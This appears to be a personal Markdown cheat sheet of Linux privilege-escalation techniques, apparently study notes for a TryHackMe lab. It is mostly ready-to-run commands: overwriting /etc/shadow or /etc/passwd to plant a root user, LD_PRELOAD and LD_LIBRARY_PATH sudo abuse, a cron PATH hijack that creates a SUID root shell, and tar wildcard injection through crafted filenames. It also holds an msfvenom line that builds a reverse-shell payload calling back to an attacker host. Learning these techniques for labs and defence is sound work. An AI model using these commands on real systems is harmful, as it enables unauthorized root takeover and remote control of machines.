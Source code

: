 ```
find / -not -type l -perm -o+w -> files with write permissions to all users
find / -not -type l -perm -o+w 2>/dev/null | grep -v "proc"
sudo -l -> files with sudo privileges
find / -perm /4000 2>/dev/null -> check SUID, execute in root of the system
-> ltrace
-> strace
https://gtfobins.github.io/gtfobins/
```
# Service Exploits
Search for installed services run by root and potential exploits for them

# Weak File Permissions
To log to root with password use ssh or `su root` instead of `sudo su`
## Readable /etc/shadow
[[3.5.11 - Dumping hashes]] - Dump and crack hashes
## Writable /etc/shadow
```
openssl passwd -1  -salt abc PASSWORD -> Salted MD5
mkpasswd -m sha-512 newpasswordhere -> SHA-512
```
Replace hash with a new one
## Writable /etc/passwd
```
root:x:0:0:root:/root:/bin/bash
```
Replace x with a hash 
```
openssl passwd newpasswordhere -> MD5
openssl passwd -1  -salt abc PASSWORD -> Salted MD5
mkpasswd -m sha-512 newpasswordhere -> SHA-512

```
Or add a new line
```
newroot:HASH:0:0:root:/root:/bin/bash
```

# Sudo
## Shell Escape Sequences
```
sudo -l
```
Search executables name on https://gtfobins.github.io/
## Environment Variables
```
sudo -l
env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```
LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
```
Create a shared object 
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
Run one of the programs you are allowed to run as sudo
sudo LD_PRELOAD=/tmp/preload.so program-name
```
OR
```
Find shared libraries used by the program
ldd PROGRAM_ROUTE
Create a shared object called as one of the libraries
gcc -o /tmp/SHARED_LIBRARY -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp program-name
```

# Cron Jobs
## File Permissions
```
cat /etc/crontab

find root cron jobs and change the content of the executed file
```

## PATH Environment Variable
```
cat /etc/crontab

Abused path variable in /etc/crontab to create another script:

#!/bin/bash  
  
cp /bin/bash /tmp/rootbash  
chmod +xs /tmp/rootbash

Execute: /tmp/rootbash -p
```

# Wildcards
When tar or other commands use wildcards (\*), can be used to privesc
```
Create a elf with msfvenom
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf -o shell.elf

Transfer file to directory where wildcard is used and make file executable
chmod +x /home/user/shell.elf

Create the following files
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf

tar will recognize filenames as tar options, this options are part of sudo privesc using tar: https://gtfobins.github.io/gtfobins/tar/
```

# SUID/SGID
## Known Exploits
Find SUID/SGID files
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
Search exploits for files in exploit-db, google, github

MAKE NOTES: https://tryhackme.com/r/room/linuxprivesc

# Kernel exploits
[[3.1.17 - Linux Kernel Exploits]]
